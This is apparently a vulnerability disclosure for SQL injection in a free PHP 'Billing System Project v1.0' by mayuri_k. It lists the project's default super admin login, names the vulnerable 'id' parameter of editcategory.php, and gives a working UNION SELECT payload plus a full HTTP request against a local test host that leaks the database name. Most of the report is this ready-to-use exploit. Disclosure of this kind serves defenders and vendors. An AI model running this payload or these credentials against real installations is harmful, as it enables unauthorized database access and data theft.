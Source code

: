 # Billing System Project v1.0 by mayuri_k has SQL injection

BUG_Author: Mogui Dong

Login account: mayurik/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /phpinventory/editcategory.php?id=

Vulnerability location: /phpinventory/editcategory.php?id=, id

dbname = store1,length=6

[+] Payload: /phpinventory/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /phpinventory/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191212602-4708e438-e24b-49b4-9dae-23a1c3e3fd62.png)

